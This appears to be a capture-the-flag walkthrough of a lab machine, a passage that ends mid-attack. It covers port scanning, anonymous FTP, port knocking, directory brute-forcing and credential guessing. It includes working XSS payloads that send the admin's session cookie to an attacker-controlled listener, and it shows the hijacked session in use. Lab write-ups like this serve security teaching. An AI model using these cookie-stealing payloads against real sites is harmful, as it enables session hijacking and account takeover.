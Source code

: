 first of all we run nmap to scan all ports:

	nmap -p- 10.10.10.179 

output:

	PORT   STATE SERVICE
	21/tcp open  ftp
	22/tcp open  ssh

there is open the ftp so I try to connect in anonymous:

	ftp anonymous@10.10.10.179

output:

	cd pub
	ls
	229 Entering Extended Passive Mode (|||45700|)
	150 Here comes the directory listing.
	-rw-r--r--    1 ftp      ftp           103 Aug 28  2020 info.txt
	-rw-r--r--    1 ftp      ftp           248 Aug 26  2020 jokes.txt
	-rw-r--r--    1 ftp      ftp        737512 Aug 18  2020 trace.pcapng

I download all of them, inside a info there is a reference to pcap, in jokes.txt tell something about the port knocking and the pcap has the the port knocking sequence.
after some research by using wireshark I found it some ports and I will use a tool named "knock" to knock at them:

	knock 10.10.122.226 7864 8273 9241 12007 60753 

so:

	PORT     STATE SERVICE
	8080/tcp open  http-proxy

it seems it has a certificate so we go to the following url: https://10.10.122.226:8080, now it's time to do gobuster

	/login
	/dashboard 301, redirect to /login
	/console

/console seems untouchable  so we should do login, there is something interesting the x509 certificate, other machines that don't have it. so if we read the certificate's details we retrieve an email: emailAddress = zac@misguided_ghosts.thm.
The most commont thing to do is to use the same user and password so now we're in, in the main page there is a phrase:

	Create a post below; admins will check every two minutes so don't be rude.

it seems an hint to do XSS in order to steal admin's cookie first we run a python server: 

	python3 -m http.server 8000

then I tried a bunch of payloads like:

	1) <script>alert(1);</script> 
	2) <img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>	

but just one worked for me:

	&#X3c;SCRIPT&#X3e;var i=new Image;i.src="http://10.8.98.143:8000/?"+document.cookie;&#X3c;/SCRIPT&#X3e;

we're hayley, i want to search for other directories so I run gobuster with this command

	gobuster dir -u https://10.10.10.179:8080/dashboard/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt -t 30 -k -c hayley_is_admin

